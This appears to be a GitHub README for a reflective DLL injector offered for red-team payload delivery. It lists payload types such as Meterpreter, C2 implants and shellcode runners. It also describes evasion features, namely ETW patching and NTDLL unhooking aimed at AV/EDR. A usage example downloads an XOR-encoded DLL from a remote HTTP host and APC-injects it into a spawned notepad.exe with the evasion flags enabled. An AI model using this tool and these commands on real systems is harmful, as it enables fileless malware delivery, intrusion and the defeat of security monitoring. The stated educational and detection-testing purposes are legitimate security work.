 # Reflective DLL Injector
[where CMakeList is]
mkdir build
cd build
cmake .. -G "Visual Studio 17 2022" 
cmake --build .

This project is a modular, stealth-aware reflective DLL injector designed for:

- Red team payload delivery
- Testing AV/EDR behavioral detection
- Simulating fileless malware techniques
- Educational exploration of process injection

It supports:
- Reflective DLL injection (RDI)
- Fileless payload delivery (via URI or embedded)
- Multiple execution vectors (`CreateRemoteThread`, APC)
- Basic XOR or AES-CBC encryption
- ETW patching and NTDLL unhooking for stealth

---

## Payload Types & Creation

a payload must be a Reflective DLL, but that DLL can contain or bootstrap virtually anything:

| Payload Type	             | Description
|----------------------------|-------------------------------------------------|
| Custom Reflective DLL	     | Your own logic: MessageBox, beaconing, hooks, etc.
| Meterpreter-style DLL	     | Shell payloads from Metasploit, Empire, etc.
| Shellcode runner DLL	     | Reflective loader + embedded shellcode
| Donut-based loader	     | Reflective DLL that loads .NET, EXE, or PE shellcode
| C2 implant	             | Full-featured agent (Sliver, Havoc, etc.)
| Diagnostic tool	         | Debuggable test DLL (e.g., create file, log PID, UI popup)

This injector supports raw DLL binaries that export a special function called `ReflectiveLoader`.

### Supported Payloads

| Format                     | Description                                     |
|----------------------------|-------------------------------------------------|
| Raw DLL                    | Traditional PE-formatted DLL file              |
| XOR-encoded DLL            | Same DLL but XOR-obfuscated with a key         |
| AES-encrypted DLL          | DLL encrypted with AES-128-CBC                 |
| Embedded DLL               | DLL compiled directly into the injector source |
| Remote DLL (via URI)       | Payload hosted on HTTP server and loaded at runtime |

---

### How to Make a Reflective DLL

Reflective DLLs are standard DLLs that include a custom loader. You can:

#### Option 1: Use a Known Framework

- [Stephen Fewer’s ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
- [TrustedSec's Unicorn](https://github.com/trustedsec/unicorn)
- [Donut (shellcode generator)](https://github.com/TheWover/donut)

#### Minimal Requirements:

1. Export a function called `ReflectiveLoader`
2. Implement logic inside that loader to:
   - Resolve `kernel32.dll` imports manually
   - Call `DllMain` with `DLL_PROCESS_ATTACH`
   - Be position-independent (optional but preferred)

# Usage Syntax

DLLInjector.exe [options]
Payload Source
Flag	Description
--embed	Use DLL embedded in embedded.cpp
--uri <url>	Download DLL from HTTP server

Payload Decoding
Flag	Description
--xor <key>	XOR-decode payload with given string key
--aes <key>	AES-128-CBC decrypt with given key
--iv <iv>	Initialization Vector for AES (16 bytes)

Process Targeting
Flag	Description
--target <name>	Inject into a running process (e.g. notepad.exe)
--spawn <path>	Launch process in suspended mode for stealth injection

Execution Methods
Flag	Description
--exec crt	Use CreateRemoteThread
--exec apc	Use QueueUserAPC injection

Evasion Features
Flag	Description
--unhook	Restore clean syscalls (NTDLL unhooking)
--patch-etw	Patch EtwEventWrite/related functions

Examples
🔹 Embedded DLL into running notepad.exe

Download + XOR-decode and APC inject:
DLLInjector.exe ^
  --uri http://192.168.1.100/payload.dll ^
  --xor mykey ^
  --spawn "C:\\Windows\\System32\\notepad.exe" ^
  --exec apc ^
  --unhook --patch-etw